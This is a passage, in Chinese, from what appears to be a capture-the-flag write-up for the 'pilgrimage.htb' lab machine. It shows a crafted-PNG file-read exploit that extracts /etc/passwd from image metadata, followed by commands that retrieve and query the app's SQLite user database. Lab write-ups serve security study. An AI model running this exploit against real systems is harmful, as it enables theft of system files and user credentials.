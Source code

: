 ```python
    with open('exploit.png', 'wb') as f:
        f.write(data)

create_exploit_png('/etc/passwd')
```

### 上傳並提取數據

1. 註冊帳號並登入
2. 上傳 `exploit.png`
3. 下載處理後的圖片

提取嵌入的數據：

```bash
# 使用 identify 查看 metadata
identify -verbose output.png | grep profile

# 或使用 exiftool
exiftool output.png

# 解碼 hex 數據
echo "726f6f743a..." | xxd -r -p
```

成功讀取到 `/etc/passwd` 內容！

### 讀取應用配置

從源碼看到配置文件可能在：
- `/var/www/pilgrimage.htb/config.php`
- 或環境變數

重複攻擊讀取 SQLite 資料庫路徑：

```python
create_exploit_png('/var/db/pilgrimage')
```

### 下載資料庫

使用文件讀取下載整個 SQLite DB：

```bash
# 讀取資料庫文件
python3 exploit.py --file /var/db/pilgrimage
# 解碼並保存
```

### 資料庫分析

```bash
sqlite3 pilgrimage.db
```

```sql
.tables
-- images, users

select * from users;
```
